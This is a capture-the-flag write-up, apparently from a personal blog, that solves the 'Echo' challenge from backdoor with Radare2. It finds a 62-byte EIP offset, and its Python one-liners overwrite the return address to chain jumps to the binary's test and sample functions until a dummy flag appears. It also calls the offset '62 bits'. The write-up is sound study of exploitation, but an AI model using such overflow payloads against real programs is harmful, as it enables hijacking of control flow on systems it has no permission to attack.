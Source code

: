 ```yaml
---
layout: post
section-type: post
title: Solving Echo problem from backdoor using Radare2
category: buffer_overflow
tags: [ 'buffer_overflow', 'stack_overflow', 'radare2', 'protostar', 'write_up', 'ctf' ]
---
```

# Solving Echo problem from backdoor using Radare2

[Problem link](https://backdoor.sdslabs.co/challenges/ECHO)

{% highlight shell-session %}
S ragg2 -P 100 -r > payload.txt
S r2 -d echo -e dbg.profile=r2profile.rr2
Process with PID 6181 started...
= attach 6181 6181
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
 -- Enhance your graphs by increasing the size of the block and graph.depth eval variable.
[0xb7fdba30]> dc
ECHO: AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41415641 code=1 ret=0
[0x41415641]> wopO eip
62
[0x41415641]> iE
[Exports]
vaddr=0x0804a038 paddr=0x00001038 ord=052 fwd=NONE sz=4 bind=GLOBAL type=OBJECT name=stderr
vaddr=0x08048617 paddr=0x00000617 ord=070 fwd=NONE sz=36 bind=GLOBAL type=FUNC name=main
vaddr=0x0804856b paddr=0x0000056b ord=071 fwd=NONE sz=109 bind=GLOBAL type=FUNC name=sample
vaddr=0x080485d8 paddr=0x000005d8 ord=077 fwd=NONE sz=63 bind=GLOBAL type=FUNC name=test

18 exports

{% endhighlight %}

Now let's rewrite our payload and try to make the run flow go to the test function

{% highlight shell-session %}
S python -c 'print "A"*62 + "\xd8\x85\x04\x08"' > payload.txt
S ragg2 -P 100 -r >> payload.txt
S r2 -d echo -e dbg.profile=r2profile.rr2
Process with PID 15800 started...
= attach 15800 15800
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> dc
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA؅
ECHO: AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41415641 code=1 ret=0
[0x41415641]> wopO eip
62
{% endhighlight %}

We found that we need another jump after 62 bits which is the same offset as the first time, So we will inject sample fuction address after the test function '0x0804856b'

{% highlight shell-session %}
S python -c 'print "A" * 62 + "\xd8\x85\x04\x08" + "\x6b\x85\x04\x08"' > payload.txt
S r2 -d echo -e dbg.profile=r2profile.rr2
Process with PID 25897 started...
= attach 25897 25897
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> dc
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA؅k�
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAk�
dummy_flag
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0xffffffffbffff600 code=2 ret=0
[0xbffff600]>
{% endhighlight %}

Can you see the `dummy_flag`? :D Wohoo WE DID IT!!!
